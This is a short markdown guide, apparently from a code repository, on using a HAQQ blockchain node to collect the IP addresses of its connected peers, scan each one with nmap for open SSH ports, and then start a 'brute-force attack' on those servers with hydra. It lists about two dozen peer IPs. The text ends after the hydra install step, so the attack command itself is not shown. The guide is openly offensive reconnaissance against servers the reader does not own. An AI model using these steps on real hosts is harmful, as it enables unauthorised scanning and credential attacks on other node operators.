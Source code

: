 ### 1. Get IP of current peers connected to our node
- Check RPC port of HAQQ node
```
haqqd status | jq ."NodeInfo"."other"."rpc_address"
```
Output will be:
> "tcp://0.0.0.0:30657"

- Collect IP of current peers to log file `Peer_IP.txt`
```
curl -sS http://localhost:30657/net_info | jq -r '.result.peers[] | "\(.node_info.id)@\(.remote_ip):\(.node_info.listen_addr)"' | awk '{FS=":|@"} {print $2}' | grep -e "^[1-9]" > Peer_IP.txt
```
Output will be as below:  
>```
> root@Hetz-HEL1-DC2-032:~# cat Peer_IP.txt
> 159.69.20.76
> 65.21.133.125
> 148.251.47.69
> 212.162.153.138
> 62.171.150.139
> 94.130.239.162
> 94.130.142.27
> 185.187.169.237
> 51.81.35.102
> 116.203.37.162
> 198.204.240.170
> 65.108.67.152
> 65.108.157.85
> 65.21.146.106
> 65.109.34.133
> 135.181.147.140
> 95.214.54.158
> 65.108.52.192
> 34.91.81.33
> 65.108.62.95
> 146.19.24.139
> 65.108.232.174
> 34.90.129.213
> 38.242.242.192
> ```

### 2. Check which SSH port is ON on these peers
- Install `nmap` on your server
```
sudo apt install nmap
```
- Check SSH port of peer IP 
```
for i in `cat Peer_IP.txt`; do echo "$i:`nmap $i|grep ssh`"; done
```
- Output log will be as below
> ![image](https://user-images.githubusercontent.com/91453629/194015036-c42d6d6e-f1ba-4e5f-8e22-ba88a992cd67.png)

### 3. Do brute-force attack to these server
- Install software `hydra` on your server
```
sudo apt install hydra
```
